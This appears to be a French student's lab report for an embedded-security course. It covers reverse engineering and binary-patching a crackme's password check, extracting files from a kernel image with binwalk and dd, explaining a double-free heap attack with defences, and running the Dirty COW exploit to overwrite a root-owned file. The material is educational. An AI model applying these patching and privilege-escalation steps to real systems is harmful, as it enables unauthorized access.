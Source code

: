 # INSA 2SU 2020

https://bitbucket.org/whitewand/2su_2020/src

# Questions
```
- Quels sont les chemins d'attaque possibles sur la signature d'un système embarqué?
- A quoi sert la chaine de confiance? Pourquoi est-elle nécessaire?
- Décrire la méthode pour aborder la sécurité sur un produit embarqué. Pourquoi établir un modèle d'attaquant est-il important?
- Trouver un moyen rapide de faire du debug embarqué (par exemple sur cible ARM)? Expliquer les avantages
- Lister les catégories de bug possibles et comment les exploiter et les défendre
- Quelles idées pour améliorer la sécurité en embarqué? (IA, Anti-debug, Obfuscation, Crypto ...) Choisissez une idée, chercher si elle existe et développer en quelques phrases quel avantage elle apporte et ses limites
```


# TD1: \[Reverse engineering\]

L'output de la commande file program> L'output est different de ce qui est sur le tutorial parce que nous sommes sur Linux Debian.
<img src="./screenshot/file.png">

Le resultat de la commande ``` hexdump -C program | head -n 20. ``` est:

<img src="./screenshot/hexdump_2.png">
La colonne a gauche est l'offset en hexadecimal.
La deuxieme colonne est le contenu de fichier en hexadecimal
La colonne a gauche montre l'equivalent de contenu du fichier en ASCII.

L'output de la commande string
```
poop
Please input a word:
That's correct!
That's not correct!
```
On voit bien que le fichier dispose des strings et dispose le mot de passe en clair. Une obfuscation pour cacher les textes auraient été essentiel.

Avec la commande ```objdump -S -l -C -F -t -w program | less``` , on peut voit bien l'adresse de la fonction is_valide 
<img src="./screenshot/is_valid.png">

Les trois premières instructions sont les commandes pour déclaration d'une fonction, ils enregistrent le vieux pointeur, trouve le nouveau pointeur  et puis vide le stack.

Les 2 prochaines instructions sont pour la declaration de strcmp 

Les instructions lea et mov apres appellent la fonction strcmp 

On compare les valeur des deux strings et puis s'ils ne sont pas egaux, on passe a l'instruction 86a, et puis %eax est attribue a valeur 0x00. Si les strung sont egaux, la valeur  %eax est attribue a valeur 0x01.

Les dernieres commandes sont pour retourner le resultat et retourne a la fonction main.

On constate qu'il y a deux instructions similaires :
```
863: b8 01 00 00 00     mov $0x1, %eax
86a: b8 00 00 00 00     mov $0x0, %eax
```
Donc on veut changer le resultat de la deuxieme instruction pour qu'il attribue toujours la valeur 0x01 a %eax, donc dans deux cas %eax sont toujours attribue a 0x01, donc le resultat de la fonction is_valid est toujours 1.

Voici le resultat apres d'avoir utilise cette commande pour ecraser 0x01 au lieu de 0x00.
86a(16) = 2154(10), donc on va remplacer l'adresse 86b dont 2155 en decimal.

<img src="./screenshot/remplacer.png">
On peut voir que le programme est attique et il dit que c'est toujours le bon mot de passe. 

# TD2 \[Reverse engineering\]
## Binwalk
### utiliser binwalk sur vmlinuz-qemu-arm-2.6.20. Expliquer ce que vous voyez. Qu'est ce qui peut etre intéressant d'un point de vue sécurité?
J'ai extrait le fichier avec la commande ```binwalk -e nom_du_fichier``` . 
Donc Binwalk permet de voir s'il y a des fichiers caches ou compressees (qu'on peut pas voire en utilisant les commandes comm gunzip ou tar) .
On peut extraire les signatures, des fichiers executables, des cles de chiffrements. Donc l'attaquant peut eventuellement profiter de ce programme pour analyser ce genre de fichiers et trouver des informations important

### Retrouvez le pingouin de la démo qemu.
J'ai applique la commande binwalk plusieurs fois et puis parcouru tous les repertoires et chemins possible. A partir de cpio-root je n'ai plus besoin d'extraire.

Le fichier de pingouin tux.png se trouve dans le chemin suivant ```/_vmlinuz-qemu-arm-2.6.20.extracted/_31B0.extracted/E7E0.extracted/cpio-root/usr/local/share/directfb-examples/tux.png```
<img src="./screenshot/penguin.png">

J'ai utilise la commande ```binwalk E7E0  ``` . On peut trouver le fichier tux.png avec les informations suivantes:
```2984412 0x2D89DC ASCII cpio archive (SVR4 with no CRC), file name: "/usr/local/share/directfb-examples/tux.png", file name length: "0x0000002B", file size: "0x00006050"```
<img src="./screenshot/binwalk.png">

Donc j'ai utilise la commande dd pour obtenir l'image de pengouin:

``` dd if=E7E0 skip=2984568 count=24656 of=penguin.png bs=1 ``` 
On obtient un image de pingouin. Les parametres sont obtenus a partir de :

skip = 2984568 : l'adrsse de fichier suivant (3009224) - taille fichier (24656)"

count = 24656(dec) = 0x00006050 (taille de fichier).




### Essayez de patcher le fichier pour remplacer le pingouin par une autre image. Que ce passe-t-il?    

La commande ```dd skip=2984568 count=24656 if=penguin1.png of=E7E0 bs=1 conv=notrunc``` ne marche pas.

<img src="./screenshot/error.png">
Donc on peut pas remplacer le pengouin simplement avec la commande dd.

# TD3 \[Exploit\] Double free
## Exploitation.
On va tenter un programme simple: double_free.c
Ce programme fait 2 fois la commande free sur le pointeur a. Pour eviter l'erreur "double free corruption", on fait un free pour b entre les 2 free de a.
L'etat de fastbin est comme suivant :

'a' libere.
  ```head -> a -> tail```

'b' libere.

  ```head -> b -> a -> tail```

'a' libere encore une fois.

  ```head -> a -> b -> a -> tail```

'malloc' pour 'd'.

  ```head -> b -> a -> tail [ 'a' is returned ]```

'malloc' pour 'e'.

  ```head -> a -> tail [ 'b' is returned ]```

'malloc' pour 'f'.

  ```head -> tail [ 'a' is returned ]```
Donc on peut voir que d et f point sur le meme pointeur. On peut modifier l'autre pointeur pour avoir une execution d'une fonction d'attaque. 

## Pour se proteger de cette erreur
#### Heap Memory
Lors du développement : propreté du source (utiliser malloc/free le plus possible, utiliser les fonctions n comme strncpy pour vérifier les limites...), utilisation de librairies de développement spécialisée contre les buffers overflow 
Utiliser des logiciels spécialisés pour la vérification de code source
Choisir un langage de programmation qui n'a pas ce type d'attaque, par exempleJava.
Fiabiliser l'OS pour qu'il ne soit pas vulnérable aux débordement de buffer, par exemple : grsecurity pour Linux.

#### Double Free
Pour éviter l'exploitation de double free, il faut attribuer le pointeur a NULL le pointeur avant libérer. Quand on fait cela, il ne contient plus l'ancienne adresse et si un deuxième free arrive cela ne dommage rien car on peut pas liberer un pointeur NULL.



# TD5 : Exploitation de Dirty Cow.
J'ai cree un fichier foo avec le droit de root. Donc l'utilisateur normale (minh) ne peut pas modifier le contenu de ce fichier.
<img src="./screenshot/foo_test.png">
Apres avoir lance le programme Dirtycow. j'ai obtenu le resultat suivant:
```
$ gcc -pthread src/dirtyc0w.c -o /out/dirtyCow/dirtyc0w
$ ./out/dirtyCow/dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat out/dirtyCow/foo
m00000000000000000
```